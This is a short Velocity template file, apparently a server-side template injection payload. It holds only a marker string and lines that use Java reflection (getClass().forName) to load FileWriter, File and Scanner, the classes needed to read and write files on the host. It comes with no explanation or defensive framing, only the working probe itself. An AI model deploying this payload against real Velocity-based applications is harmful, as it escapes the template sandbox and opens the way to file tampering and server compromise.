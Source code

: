 #set( $monkey = '888888888888888888888888=========99999999999999999999999' )
$monkey
#set ($e="exp")
#set ($a=$e.getClass().forName("java.io.FileWriter"))
#set ($ab=$e.getClass().forName("java.io.File"))
#set($sc = $e.getClass().forName("java.util.Scanner"))
$a
$ab
$sc
$monkey
